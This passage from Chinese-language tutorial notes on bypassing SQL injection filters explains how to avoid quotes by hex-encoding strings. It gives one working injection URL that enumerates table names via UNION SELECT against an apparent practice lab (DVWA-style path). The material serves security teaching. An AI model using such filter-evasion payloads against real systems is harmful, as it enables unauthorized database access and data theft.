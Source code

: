 ![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675395856261-2b1180e9-8f67-4155-8a7d-06673e72be90.png)

在这个案例中并没有用到整数型后面直接跟着union的特性，但是这个知识点需要记住

# 引号绕过

引号主要使用的是字符串，可以将字符串转换为16进制，就可以避免使用引号了

```sql
http://d14.s.iproute.cn/vulnerabilities/sqli/?id=1'union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=0x6431345f735f6970726f7574655f636e)--+&Submit=Submit#
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675398290598-80f6cdbc-4ce9-4cd1-80b2-5f3ad7b785d6.png)
